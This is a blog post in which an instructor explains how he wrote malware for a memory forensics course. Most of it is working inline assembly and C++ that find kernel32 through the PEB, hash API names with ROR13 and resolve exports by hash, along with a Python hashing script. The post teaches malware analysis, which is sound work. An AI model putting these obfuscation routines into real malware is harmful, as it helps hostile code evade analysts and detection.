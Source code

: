 ```yaml
---
layout: post
title: "Shellcode Techniques in C++"
date: 2015-06-11
permalink: blog/shellcodeTechniquesCPP/
---
```


Recently I wrote a piece of malware for a [memory forensics course](http://www.tophertimzen.com/cs407/) I was teaching at Southern Oregon University. My intention was to write a sample that correlated with the back end of the courses, GUI artifacts, persistence the usage of IDA. I decided that I wanted to obfuscate the majority of Windows API calls I needed to use using shellcode tactics. An old colleague had introduced me to these techniques and I wanted to implement them again for my students as I had had already introduced them to shellcode techniques such as parsing the PEB and PE space to resolve functions, and wanted to give them a challenge. I utilized the technique of hashing function names with ROR13, extracting Kernel32's base address from the PEB and loading additional libraries with LoadLibraryA. 

Because I choose to write the malware in C++ performing inline assembly was easy. 

Firstly, I wrote three inline assembly functions that I could use throughout my malware to find the base address of kernel32, hashing a string, and resolve exports by enumerating the IMAGE_EXPORT_DIRECTORY in the PE header. 

{% highlight cpp %}

__declspec(naked)unsigned int FindKernel32()
{
	__asm{
		mov eax, fs:[0x30 ];    // get a pointer to the PEB
		mov eax, [eax + 0x0C];  // get PEB->Ldr
		mov eax, [eax + 0x14];  // get PEB->Ldr.InMemoryOrderModuleList.Flink
		mov eax, [eax];         // get the next entry (2nd entry)
		mov eax, [eax];         // get the next entry (3rd entry)
		mov eax, [eax + 0x10];  // get the 3rd entries base address (kernel32.dll)
		ret;
	};
}

{% endhighlight %}

Next I wrote a function to hash a string using a form of ROR13. 

{% highlight cpp %}

unsigned int __stdcall hashString(char* symbol)
{
	__asm 
	{
		mov esi, symbol;
		xor edi, edi;
		xor eax, eax;
		cld;
	continueHashing:
		lodsb;
		test al, al
		jz hash_done;
		ror edi, 0xd;
		add edi, eax;
		jmp  continueHashing;
	hash_done:
		mov eax, edi;
	};
}

{% endhighlight %}

Lastly I wrote in inline assembler the logic to parse through the PEB of a library once I had its base address to resolve the base address of a function while also utilizing the above hashing function. 

{% highlight cpp %}

unsigned int __stdcall findSymbolByHash(unsigned int dllBase, unsigned int symHash)
{
	__asm 
	{
		pushad;
		mov edi, symHash;
		mov ebp, dllBase;
		mov eax, [ebp + 0x3c];        //PEheader
		mov edx, [ebp + eax + 0x78];  //export table
		add edx, ebp;
		mov ecx, [edx + 0x18];        //numberOfNames
		mov ebx, [edx + 0x20];        //numberOfExports
		add ebx, ebp;
	search_loop:
		jecxz noHash;
		dec ecx;                      //decrement numberOfNames
		mov esi, [ebx + ecx * 4];     //get an export name
		add esi, ebp;
		push ecx; 
		push ebx;
		push edi;
		push esi;                     //setup stack frame and save clobber registers 
		call hashString;              
		pop edi;
		pop ebx;
		pop ecx;                      //restore clobber registers              
		cmp eax, edi;                 //check if hash matched  
		jnz search_loop;
		mov ebx, [edx + 0x24];        //get address of the ordinals
		add ebx, ebp;
		mov cx, [ebx + 2 * ecx];      //current ordinal number
		mov ebx, [edx + 0x1c];       //extract the address table offset
		add ebx, ebp;
		mov eax, [ebx + 4 * ecx];    //address of function 
		add eax, ebp;
		jmp done;
	noHash:
		mov eax, 1;
	done:
		mov[esp + 0x1c], eax;
		popad;
	};
}

{% endhighlight %}

From there, function pointers can be utilized to call Windows API functions. Because these functions will be obfuscated, new typedefs will need to be created that return and take in the correct Windows API types. 

For example, the Windows API call CreateMutexEx appears as follows

{% highlight batch %}

HANDLE WINAPI CreateMutexEx(
  _In_opt_ LPSECURITY_ATTRIBUTES lpMutexAttributes,
  _In_opt_ LPCTSTR               lpName,
  _In_     DWORD                 dwFlags,
  _In_     DWORD                 dwDesiredAccess
);

{% endhighlight %}

This function will be used to create a named Mutex to ensure the malware is only running one instance of itself on an infected machine. 

In order to implement this function obfuscated, the below typedef will be used

{% highlight cpp %}

typedef HANDLE(__stdcall *CreateMutex)(LPSECURITY_ATTRIBUTES, LPCTSTR, DWORD, DWORD);

{% endhighlight %}

Now that the function prototype is known the address of it must be resolved. To do this, the base address of Kernel32 must be discovered, the function hashed and the function resolved. 

To obtain the base address of Kenrel32 simply call FindKernel32(). 

{% highlight cpp %}

unsigned int kernel32BaseAddr = FindKernel32();

{% endhighlight %}

The ROR13 hash of a function, CreateMutexA, must also be resolved. To obtain a hash you can call the hashString() function or use the below python script 

{% highlight python %}

import time, sys

def ror( dword, bits ):
  return (( dword >> bits | dword << ( 32 - bits ) ) & 0xFFFFFFFF)

def hash(function, bits=13, print_hash=True ):
  function_hash = 0
  for c in str( function ):
    function_hash  = ror( function_hash, bits ) 
    function_hash  = (function_hash + ord(c))
  
  if print_hash:
    function_hash = function_hash & 0xFFFFFFFF
    print "[+] 0x%02X = %s" % ( function_hash, function )
  return function_hash
  

def main( argv=None ):
  if not argv:
    argv = sys.argv
  try:
    if len( argv ) != 2:
      print "Usage: ror13.py <function name>"
    else:
      print "[+] Ran on %s\n" % (  time.asctime( time.localtime() ) )
      hash( argv[1] )
  except Exception, e:
    print "[-] ", e
	
if __name__ == "__main__":
  main()

{% endhighlight %}

{% highlight batch %}

C:\Users\Topher>c:\bin\ror13.py CreateMutexExA
[+] Ran on Thu Jun 11 09:58:55 2015

[+] 0xBCE81294 = CreateMutexExA

{% endhighlight %}

In order to resolve this function by hash, a call to findSymbolByHash will be made with the address of kernel32 and the ror13 hash. 

{% highlight cpp %}

CreateMutex CreateMutex_Func = (CreateMutex)(findSymbolByHash(kernel32BaseAddr, 0xBCE81294));

{% endhighlight %}

CreateMutexExA can now be called 

{% highlight cpp %}

HANDLE created = MyCreateMutex(0, "IkFyZSB5b3UgaGF2aW5nIGZ1biB3aXRoIHRoaXMgbGFiPyIgDQo=", 0, MUTEX_ALL_ACCESS);

{% endhighlight %}

Any API call from Kernel32 can now be used in an obfuscated manner. Calls from other modules can also be used with a call to LoadLibraryA. 

Using the same methods above, the address of LoadLibraryA can be discovered at runtime. 

{% highlight cpp %}

typedef unsigned int(__stdcall *FunPtr_LoadLibrary)(LPCSTR);

unsigned int getLibrary(char *libraryName)
{
	FunPtr_LoadLibrary MyLoadLibraryA;
	MyLoadLibraryA = (FunPtr_LoadLibrary)(findSymbolByHash(kernel32BaseAddr, 0xEC0E4E8E));
	unsigned int baseAddr = MyLoadLibraryA(libraryName);
	return baseAddr;
}

{% endhighlight %}

Just call getLibrary() with the name of the module that needs to be loaded. 

{% highlight cpp %}

unsigned int user32BaseAddr = getLibrary("user32.dll");

{% endhighlight %}

Now calls can be made into findSymbolByHash with user32BaseAddr and a function hash from that module. 

As shown, utilizing shellcode techniques in C++ is relatively straight forward once the supporting functions are written. 
